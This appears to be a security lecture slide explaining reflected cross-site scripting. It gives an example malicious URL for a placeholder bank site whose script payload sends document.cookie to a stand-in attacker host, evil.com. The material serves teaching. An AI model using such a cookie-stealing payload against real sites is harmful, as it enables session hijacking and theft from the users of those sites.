

# Reflected XSS
Example malicious URL:

If user clicks this link:                        browser goes to bank.com/search.php?... bank.com returns:                            <HTML> Results for <script> … </script> …
browser executes script in same origin as bank.com

http://bank.com/search.php?term=
<script> window.open(  "http://evil.com/?cookie = " +  document.cookie ) </script>